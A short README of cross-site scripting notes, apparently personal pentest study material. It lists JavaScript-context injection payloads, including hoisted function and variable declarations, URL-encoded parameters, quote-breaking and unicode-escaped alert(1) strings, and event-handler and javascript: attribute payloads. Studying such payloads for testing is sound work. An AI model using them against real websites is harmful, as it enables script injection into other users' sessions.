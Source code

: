 # XSS-Notes
XSS Scenarios

```
<script>
    leo.write('test','reflection_here')
</script>
```

Exploitable scenarios

```
vulnerableFunction('test', 'INJECTION');
```
```
//param='-alert(1)-'
vulnerableFunction('test', ''-alert(1)-''); 
```

Function injection

```
vulnerableFunction('test', ''-alert(1)-''); 

function vulnerableFunction(a,b){
    return 1
};
```
```
//Payload
param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
```

```
vulnerableFunction('test', 'test'); 

function vulnerableFunction(a,b){
    return 1
};

alert(1)
```

```
//Payload
param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
```

Variable injection

```
function myFunction(a,b){
    return 1
};
myFunction(a, 'test'); 
var a = 1;
alert(1);
```

```
//Payload
param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
```

## Debugging Client Side JS

download all the files locally and change set breakpoints in the JS code.

**"Dev Tools" --> "Sources" --> "Overrides"**

add this in function
```
debugger;
```

## input Validation (check HTML tags)
1. check multiple tags
```
<img>
<a>....
```
2. attributes
```
onclick="alert(1)"
href = "javascript:alert(1)"
```
3. inside <script> [....]  </script>
```
'-alert(1)-'
';-alert(1)//
\';alert(1)//

// encoded
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
Demo function
```
function myFunction(a,b){
    return 1;
}

myFunction(a,'<INJECTION>')
```
In UnExploitable Class
```
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// example
' ' -alert(1)- ' '
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
    return 1;
}
alert(1);
```





